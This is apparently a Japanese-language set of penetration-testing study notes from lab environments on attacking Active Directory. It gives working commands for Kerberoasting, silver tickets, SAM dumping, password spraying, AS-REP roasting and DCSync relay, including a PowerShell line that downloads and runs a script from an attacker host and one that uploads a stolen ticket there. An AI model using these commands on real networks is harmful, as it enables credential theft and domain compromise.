








## Active Directory Authentication

[toc]

### 認証情報の抽出(mimikatz)

[mimikatz.md](./../Tools/mimikatz.md)

### チケットの抽出(mimikatz)

```cmd
mimikatz # sekurlsa::tickets
```

### サービスチケットの要求

```powershell
PS C:\Users\Public> Add-Type -AssemblyName System.IdentityModel
PS C:\Users\Public> New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList 'HTTP/ExchangeService.xor.com'
```

### 現在のユーザにキャッシュされたkerberosチケットを表示

```cmd
klist
```

### サービスチケットのダウンロード

```cmd
mimikatz # privilege::debug
mimikatz # kerberos::list /export
```

### サービスチケットのクラック

サービスアカウントのNTLMやパスワードの取得ができる

チケットの配送(apacheを立ち上げておく）

```
powershell (New-Object System.Net.WebClient).uploadFile('http://192.168.45.187/upload.php', '4-40a10000-xor-app59$@XOR-APP59$-XOR.COM.kirbi')
```

```bash
ls /var/www/uploads/                                  
'4-40a10000-xor-app59$@XOR-APP59$-XOR.COM.kirbi'
```

#### kerberostを利用したクラック（遅いのでJohn the ripperのがいい）

```bash
python /usr/share/kerberoast/tgsrepcrack.py /usr/share/wordlists/rockyou.txt 4-40a10000-xor-app59\$@XOR-APP59\$-XOR.COM.kirbi
```

#### John the ripperを利用したクラック

```bash
kirbi2john 1-40a50000-offsec@HTTP~CorpWebServer.corp.com-CORP.COM.kirbi -o crack_file
```

```bash
john --format=krb5tgs crack_file --wordlist=/usr/share/wordlists/rockyou.txt
```

#### Invoke-Kerberoust.ps1を利用したクラック

ドメイン内のすべてのサービスプリンシパル名を自動的に列挙し、それらのサービスチケットを要求し、John the RipperとHashcatの両方でクラックできる形式でそれらをエクスポートする

https://powersploit.readthedocs.io/en/latest/Recon/Invoke-Kerberoast/

```bash
cp ~/Documents/tools/Empire/data/module_source/credentials/Invoke-Kerberoast.ps1 ./
```



```cmd
powershell.exe IEX (New-object System.Net.Webclient).Downloadstring('http://192.168.45.187/Invoke-Kerberoast.ps1')
```

Hashの値すべてをコピーしサクラエディタで置換（タブと\r\n）してファイルを作成してJohn the ripperでパスワードクラックする

```bash
john --format=krb5tgs crack_file --wordlist=/usr/share/wordlists/rockyou.txt
```


### シルバーチケット

- SPNパスワードハッシュ
- ドメインSID
- ターゲットSPN

が入手できた場合mimikatzでシルバーチケットを偽造し横展開に利用することができる


ドメインのSIDを取得する

```cmd
whoami /user

User Name               SID                                          
======================= =============================================
xor-app59\administrator S-1-5-21-3051798232-4248191986-2095020414-500
```

最後の-500を除いた部分がドメインを定義するSID

サービスチケットを作成する

```cmd
mimikatz # kerberos::golden /user:sqlServer /domain:xor.com /sid:S-1-5-21-3051798232-4248191986-2095020414 /target:xor-app23.xor.com:1433 /service:MSSQLSvc /rc4:9F32A1D1BD317B5B8E96DDE9186D8239 /ptt
```

klistでチケット発行できていることを確認する

```cmd
klist
```

→結構入っていないOSが多い気がする。

横展開する（成功したことない）

```cmd
PsExec.exe -accepteula -u sqlServer \\xor-app23 cmd.exe
```

```powershell
PS C:\Tools> Invoke-WebRequest -UseDefaultCredentials http://web04
```

https://learn.microsoft.com/en-us/powershell/module/microsoft.powershell.utility/invoke-webrequest?view=powershell-7.2


### SAMの取得（reg save)

参考サイト：https://www.ired.team/offensive-security/credential-access-and-credential-dumping/dumping-hashes-from-sam-registry

* 管理者アカウントでsystemとsamを取得する

  ※おそらく整合性レベルHigh

  ```
  reg save hklm\system system
  reg save hklm\sam sam
  ```

* 取得した2ファイルをkaliに転送する

  ※systemは容量が大きいのでscpなどを使って転送するとよさそう

* ハッシュダンプする

  ```bash
  samdump2 system sam                                               
  
  ----
  Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
  *disabled* Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
  *disabled* :503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
  *disabled* :504:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
  ```

  ※disableとついてると失敗？？

  ※そもそも全部ハッシュが同じで上記コマンドはおかしいかも

* 以下コマンドでもhashdump可能　※samdamp2と結果が異なることがあるので両方とも実行すること

  https://www.thehacker.recipes/ad/movement/ntlm/pth

  ```bash
  secretsdump.py -sam sam -system system LOCAL
  
  -----
  Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation
  
  [*] Target system bootKey: 0x8083a99d1e5064d3bab801bc951c6fea
  [*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
  Administrator:500:aad3b435b51404eeaad3b435b51404ee:8c802621d2e36fc074345dded890f3e5:::
  Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
  DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
  WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:97eb2768602642d58b10db2d26caff8a:::
  [*] Cleaning up...
  ```


### パスワードスプレー攻撃

以下powershellスクリプトがある

(Improsec, 2016), https://web.archive.org/web/20220225190046/https://github.com/ZilentJack/Spray-Passwords/blob/master/Spray-Passwords.ps1 [↩︎](https://portal.offsec.com/courses/pen-200-2023/books-and-videos/modal/modules/attacking-active-directory-authentication/performing-attacks-on-active-directory-authentication/password-attacks#fnref3)

```powershell
PS C:\Users\jeff> cd C:\Tools

PS C:\Tools> powershell -ep bypass
...

PS C:\Tools> .\Spray-Passwords.ps1 -Pass Nexus123! -Admin
WARNING: also targeting admin accounts.
Performing brute force - press [q] to stop the process and print results...
Guessed password for user: 'pete' = 'Nexus123!'
Guessed password for user: 'jen' = 'Nexus123!'
Users guessed are:
 'pete' with password: 'Nexus123!'
 'jen' with password: 'Nexus123!'
```

(Github, 2022), https://github.com/Porchetta-Industries/CrackMapExec [↩︎](https://portal.offsec.com/courses/pen-200-2023/books-and-videos/modal/modules/attacking-active-directory-authentication/performing-attacks-on-active-directory-authentication/password-attacks#fnref4)

```bash
kali@kali:~$ cat users.txt
dave
jen
pete

kali@kali:~$ crackmapexec smb 192.168.50.75 -u users.txt -p 'Nexus123!' -d corp.com --continue-on-success
SMB         192.168.50.75   445    CLIENT75         [*] Windows 10.0 Build 22000 x64 (name:CLIENT75) (domain:corp.com) (signing:False) (SMBv1:False)
SMB         192.168.50.75   445    CLIENT75         [-] corp.com\dave:Nexus123! STATUS_LOGON_FAILURE 
SMB         192.168.50.75   445    CLIENT75         [+] corp.com\jen:Nexus123!
SMB         192.168.50.75   445    CLIENT75         [+] corp.com\pete:Nexus123!
```

(Github, 2020), https://github.com/ropnop/kerbrute [↩︎](https://portal.offsec.com/courses/pen-200-2023/books-and-videos/modal/modules/attacking-active-directory-authentication/performing-attacks-on-active-directory-authentication/password-attacks#fnref6)

```
PS C:\Tools> type .\usernames.txt
pete
dave
jen

PS C:\Tools> .\kerbrute_windows_amd64.exe passwordspray -d corp.com .\usernames.txt "Nexus123!"

    __             __               __
   / /_____  _____/ /_  _______  __/ /____
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/

Version: v1.0.3 (9dad6e1) - 09/06/22 - Ronnie Flathers @ropnop

2022/09/06 20:30:48 >  Using KDC(s):
2022/09/06 20:30:48 >   dc1.corp.com:88
2022/09/06 20:30:48 >  [+] VALID LOGIN:  jen@corp.com:Nexus123!
2022/09/06 20:30:48 >  [+] VALID LOGIN:  pete@corp.com:Nexus123!
2022/09/06 20:30:48 >  Done! Tested 3 logins (2 successes) in 0.041 seconds
```

### ASREProast

ケルベロス認証のAS(Authentication Service)REQに含まれるクレデンシャルをクラックする

* Linuxで実行

```bash
kali@kali:~$ impacket-GetNPUsers -dc-ip 192.168.50.70  -request -outputfile hashes.asreproast corp.com/pete
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

Password:
Name  MemberOf  PasswordLastSet             LastLogon                   UAC      
----  --------  --------------------------  --------------------------  --------
dave            2022-09-02 19:21:17.285464  2022-09-07 12:45:15.559299  0x410200 
```

```bash
kali@kali:~$ hashcat --help | grep -i "Kerberos"
  19600 | Kerberos 5, etype 17, TGS-REP                       | Network Protocol
  19800 | Kerberos 5, etype 17, Pre-Auth                      | Network Protocol
  19700 | Kerberos 5, etype 18, TGS-REP                       | Network Protocol
  19900 | Kerberos 5, etype 18, Pre-Auth                      | Network Protocol
   7500 | Kerberos 5, etype 23, AS-REQ Pre-Auth               | Network Protocol
  13100 | Kerberos 5, etype 23, TGS-REP                       | Network Protocol
  18200 | Kerberos 5, etype 23, AS-REP                        | Network Protocol
```

→ 18200でhashcatする

```bash
kali@kali:~$ sudo hashcat -m 18200 hashes.asreproast /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
...

$krb5asrep$23$dave@CORP.COM:b24a619cfa585dc1894fd6924162b099$1be2e632a9446d1447b5ea80b739075ad214a578f03773a7908f337aa705bcb711f8bce2ca751a876a7564bdbd4a926c10da32b03ec750cf33a2c37abde02f28b7ab363ffa1d18c9dd0262e43ab6a5447db44f71256120f94c24b17b1df465beed362fcb14a539b4e9678029f3b3556413208e8d644fed540d453e1af6f20ab909fd3d9d35ea8b17958b56fd8658b144186042faaa676931b2b75716502775d1a18c11bd4c50df9c2a6b5a7ce2804df3c71c7dbbd7af7adf3092baa56ea865dd6e6fbc8311f940cd78609f1a6b0cd3fd150ba402f14fccd90757300452ce77e45757dc22:Flowers1
...
```

* windowsの場合

```powershell
PS C:\Tools> .\Rubeus.exe asreproast /nowrap

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.1.2


[*] Action: AS-REP roasting

[*] Target Domain          : corp.com

[*] Searching path 'LDAP://DC1.corp.com/DC=corp,DC=com' for '(&(samAccountType=805306368)(userAccountControl:1.2.840.113556.1.4.803:=4194304))'
[*] SamAccountName         : dave
[*] DistinguishedName      : CN=dave,CN=Users,DC=corp,DC=com
[*] Using domain controller: DC1.corp.com (192.168.50.70)
[*] Building AS-REQ (w/o preauth) for: 'corp.com\dave'
[+] AS-REQ w/o preauth successful!
[*] AS-REP hash:

      $krb5asrep$dave@corp.com:AE43CA9011CC7E7B9E7F7E7279DD7F2E$7D4C59410DE2984EDF35053B7954E6DC9A0D16CB5BE8E9DCACCA88C3C13C4031ABD71DA16F476EB972506B4989E9ABA2899C042E66792F33B119FAB1837D94EB654883C6C3F2DB6D4A8D44A8D9531C2661BDA4DD231FA985D7003E91F804ECF5FFC0743333959470341032B146AB1DC9BD6B5E3F1C41BB02436D7181727D0C6444D250E255B7261370BC8D4D418C242ABAE9A83C8908387A12D91B40B39848222F72C61DED5349D984FFC6D2A06A3A5BC19DDFF8A17EF5A22162BAADE9CA8E48DD2E87BB7A7AE0DBFE225D1E4A778408B4933A254C30460E4190C02588FBADED757AA87A
```

hash.asreproastという名前のテキストファイルに結果を貼り付ける

```bash
kali@kali:~$ sudo hashcat -m 18200 hashes.asreproast2 /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
...
$krb5asrep$dave@corp.com:ae43ca9011cc7e7b9e7f7e7279dd7f2e$7d4c59410de2984edf35053b7954e6dc9a0d16cb5be8e9dcacca88c3c13c4031abd71da16f476eb972506b4989e9aba2899c042e66792f33b119fab1837d94eb654883c6c3f2db6d4a8d44a8d9531c2661bda4dd231fa985d7003e91f804ecf5ffc0743333959470341032b146ab1dc9bd6b5e3f1c41bb02436d7181727d0c6444d250e255b7261370bc8d4d418c242abae9a83c8908387a12d91b40b39848222f72c61ded5349d984ffc6d2a06a3a5bc19ddff8a17ef5a22162baade9ca8e48dd2e87bb7a7ae0dbfe225d1e4a778408b4933a254c30460e4190c02588fbaded757aa87a:Flowers1
...# 最後のコロンがパスワード
```

※ John the ripperの方が100倍早いし、コマンドも簡単

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt crack_file   
```


### Kerberoast(remote) Impacket GetUsersSPNs

https://github.com/fortra/impacket

```
python GetUserSPNs.py -dc-ip 10.129.191.179 active.htb/SVC_TGS
```

```
python GetUserSPNs.py -dc-ip 10.129.191.179 active.htb/SVC_TGS -request

$krb5tgs$23$*Administrator$ACTIVE.HTB$active.htb/Administrator*$5f14c8dd5c3cca9415ff2faea86c79a4$157e56b1df1a0b1d83ee4fc7e931e2a557c6e018a7d553d456edfe9cc7291c8dbdb7af43c4619b120607660d4521b8df3ff2aee1643271b3b29a8fffa6f425fcab1f7b98d440c24e67385d8b1aa406294fb9551de0441c32227f84d7368776567198a376ad620bc08def6f18b0502925a00ff091eb34ff2e64aac27d8920be1e245fb10e85e345d0cd0fa643c72cbc13ac406cda228ddd589a30852db951c75943f8ce03799de1408a869dfe560834d6ddb9f3518f4c9ba38675783a7680afb5fa3ad58ee335ccd8d47085a897ace74854c1b362a50fcf63f3f0ca34d05da0569a4f32bda31aa4b1dee67d5d199fc01a50d375b8617f3a073344a1393327ff854e2ae15c2419d8f72c88ab7837a6808af322908088f28a07c89bd19a85ee26dcd4032626eea7c12329bcbc71793372e94ebd47d83b437cf8e6babcaf2c087af8a9f67475a078510a3ae47a32613ee1866adf8e62b8f02289b5d782bdec197eb69de6a3bdbcd7b157f058208fc55c29ce0e66de8467e6baec745bb48316256d8b6b639262c01fd7977910a380faf3d8519e70e6e019cf4064db4b295144528bf08639e015c134c6f010cb5b3f71611be45cdcaeb9a542f7382d899bb2b0b2192c3d26db87a6b9bacf41ed3cb21a2c6a82d5add11f429b41fbc29d7c7d4c96ed3bba4b3b57e07ac9f94269d02f483705fdf6ef6c087d0044658cf45b489553b1cdbbd039bc041aee4478ae15a5645ef98b85737d895768a2110fd2c7d689f738735f234625561cf11d6b5f9153e157bbae3d87fa1293f2b0cd192a633162454eea1c814e9c7668ff3d3a9a23ffde18f5befcf494a911a791da8289c06df768a0ed9ab204194e74ae564a28dde53b4d198d0de6432c2cd5d8de3ee72ee1716f83dc35ecb454c658bfa9d24d3a83b5bbe3a0dd7d20076985e92337a6b6844763f74a02f1fd0226a81283e3d5bf84b0245a5bbf4da2aa85dc34e9cb398c675cd561399322c5b8fa21b49887eaa4a2a39d672177db9467ea758d7de9b1842e50c61508bc41e272de5be351f1c57cac4f01212b6a7a2f69d72eed44e51078525039c058c3d5bcf838ede5759add259e21c819306d028b927f5cd177939119ad46aa2d21ef1dc71d98a0c2dac77d97df43159d346222cb0de725448b43730da48ed260f0360582b0e1dc2b4274838b6354cdd0dd2dd2c07769ce7e998b383f5321f9605d66c96cbda41c916edf774cad32d0edab1fdd682f67a5bca29d21
```

```bash
john --format=krb5tgs crack_file --wordlist=/usr/share/wordlists/rockyou.txt
```

### DCsync(Exchange Server)

[詳細の説明サイト](https://blog.fox-it.com/2018/04/26/escalating-privileges-with-acls-in-active-directory/)

前提条件

* domainユーザを追加できる権限を持っていること

  * `Account Operators`グループに所属していること

    

  * 

* **Exchange server**に関連するグループがあること

  

  → `Exchange Trusted Subsystem`/`Exchange Windows Permissions`

1. `Exchange Trusted Subsystem`のセキュリティグループのユーザを作成する(デフォルトではwriteDACL 権限を持つ Exchange Windows Permissions セキュリティグループのメンバーになっています。)

   ```powershell
   # [Forest Box] - WinRM Session
   PS C:\> net user bigb0ss bigb0ss /add /domain
   PS C:\> net group "Exchange Trusted Subsystem" bigb0ss /add /domain
   ```

   

2. ntlmrelayx.py man-in-the-middle ("mitm")ツールを --escalate-userフラグ付きで実行する。これにより、同じネットワーク上の「bigb0ss」ユーザーのログイン試行を識別すると、mitmは自動的にユーザー権限をチェックし、ドメインACLを変更できる場合は、ユーザー権限を変更して、ユーザーアカウントにReplication-Get-Changes-All権限を追加し、DCSyncを実行することができます。

   ```
   cp /usr/share/doc/python3-impacket/examples/ntlmrelayx.py ./
   sudo systemctl stop smbd
   ```

   ```bash
   # [My Kali Box] - Screen #1
   $ ntlmrelayx.py -t ldap://10.129.192.240 --escalate-user bigb0ss
   ```

3. 次に、"bigb0ss "アカウントを使用してランダム認証を行います。今回は、psexec.pyを使って、自分のKaliボックスに対して認証の試行を行いました。

   ```bash
   [My Kali Box] - Screen #2
   $ psexec.py htb.local/bigb0ss:bigb0ss@10.10.14.75
   ```

   明らかに、SMBサービスは私のKaliボックス上で実行されていないため、これは失敗します。そして、それはとにかく私のボックスのための有効なクレジットではないでしょう。

   

4. しかし、ntlmrelay.pyツールは、htb.local/bigb0ss:bigb0ssの認証試行をキャプチャしたものをldap:/10.10.10.161（フォレストボックス）に中継する。そして、それはフォレストボックスへの有効な認証情報であるため、正常に認証され、Replication-Get-Changes-Allを追加するために私たちの権限をエスカレートさせることができます。

5. 昇格した権限で、secretsdump.py ツールを使用して、DCSync を実行して "Administrator" ユーザーの NTLM ハッシュをダンプすることができます。

   ```bash
   ### DCSync
   $ secretsdump.py htb.local/bigb0ss:bigb0ss@10.129.192.240 -just-dc-user administrator
   ```

   

   ```bash
   htb.local\Administrator:500:aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6:::
   ```

   ```bash
   psexec.py htb.local/administrator@10.129.192.240 -hashes aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6
   ```

   

